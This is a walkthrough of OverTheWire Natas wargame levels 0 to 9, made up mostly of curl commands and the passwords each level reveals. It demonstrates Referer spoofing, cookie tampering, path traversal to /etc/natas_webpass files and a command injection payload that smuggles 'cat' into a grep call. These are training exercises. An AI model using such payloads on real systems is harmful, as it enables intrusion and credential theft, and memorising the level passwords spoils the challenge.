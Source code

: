 # Natas

## level 0

```
$ curl -u natas0:natas0 http://natas0.natas.labs.overthewire.org/
```

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

## level 1

```
$ curl -u natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org/
```

```
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

## level 2

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/
```

I find a label.

```
<img src="files/pixel.png">
```

There is a ```users.txt``` in the same directory and password for natas3 is in it.

```
$ curl -u natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
```

```
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```

## level 3

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/
```

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Check the ```robots.txt```.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```

There is also a ```user.txt``` with password for the next level.

```
$ curl -u natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## level 4

This level determines whether we come from ```http://natas5.natas.labs.overthewire.org/``` by ```Referer``` header field.

```
$ curl -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ -H 'Referer:http://natas5.natas.labs.overthewire.org/'
```

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

## level 5

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -v
```

Find ```Set-Cookie: loggedin=0```.

```
$ curl -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ -b 'loggedin=1'
```

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## level 6

Access ```http://natas6.natas.labs.overthewire.org/index-source.html``` and find ```include "includes/secret.inc";```.

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
$secret = "FOEIUWGHFEEUHOFUOIU";
```

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/ -d 'secret=FOEIUWGHFEEUHOFUOIU&submit=Submit'
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## level 7

```
$ curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

## level 8

```php
// http://natas8.natas.labs.overthewire.org/index-source.html
<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Decode the ```secret```.

```
$ echo 3d3d516343746d4d6d6c315669563362 | xxd -p -r | rev | base64 -d
oubWYf2kBq
```

```
$ curl -u natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org/ -d 'secret=oubWYf2kBq&submit=Submit'
```

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## level 9

```php
// http://natas9.natas.labs.overthewire.org/index-source.html
<?php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

```
$ curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -F 'needle=;cat /etc/natas_webpass/natas10 #' -F 'submit=Search'
```

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
